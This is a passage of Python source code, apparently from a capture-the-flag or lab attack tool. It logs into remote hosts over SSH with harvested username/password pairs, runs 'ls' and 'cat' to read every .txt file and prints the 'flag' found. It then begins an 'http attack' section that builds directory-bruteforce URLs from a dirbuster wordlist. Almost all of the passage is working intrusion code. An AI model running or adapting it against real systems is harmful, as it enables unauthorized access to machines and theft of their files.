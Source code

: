         SSH_credentials[targetIP] = user_pass
        return SSH_credentials # this dict can be used in another function to log in and manipulate on remote system
    
    def read_remote_files(SSH_credentials: dict) -> None:
        """Reads all txt files. From txt files print content
        Args: SSH_credentials (dict): key: ip address, value: list of lists consists of pair: user/pass
        """
        # initialize SSH client
        sshserver = paramiko.SSHClient()
        # add to know hosts
        sshserver.set_missing_host_key_policy(paramiko.AutoAddPolicy())
    
        sshserver.load_system_host_keys()
        for ip, user_pass in SSH_credentials.items():
            for user, passwd in user_pass:
                # print (ip, user, passwd)
                try:
                    sshserver.connect(hostname=ip, username=user, password=passwd, timeout=5)
                    ls_command = 'ls -a'
                    stdin, stdout, stderr = sshserver.exec_command(ls_command)
                    list_of_files = stdout.readlines()
                    # print(list_of_files)
                    for file in list_of_files:
                        file = file.replace('\n','')
                        if  '.txt' in file:
                            cat_command = 'cat ' + file
                            stdin, stdout, stderr = sshserver.exec_command(cat_command)
                            print(f"[+] Host:{ip} User:{user} flaga: {stdout.readlines()[0].strip()} w pliku: {file}")
                    sshserver.close()
                except socket.timeout:
                    # this is when host is unreachable
                    print(f"[!] Host: {ip} is unreachable, timed out.")
    
    # ========= http attack ===========
    
    def make_links(url:str) -> list:
        """From ip address and words from dictionary on linux kali disc makes list of links (ip/path) to check
        Args:
            url (str): ip address
        Returns:
            list: list of links to check
        """
        links = []
        # WORDLIST = "/usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt"
        WORDLIST = "/usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-very-small.txt"
        with open(WORDLIST, errors='ignore') as stream:
            directories = stream.read().split("\n")
        for directory in directories:
            if not directory.startswith('#') and not directory.startswith('?') and directory !='':
                link = url + '/' + directory
                links.append(link)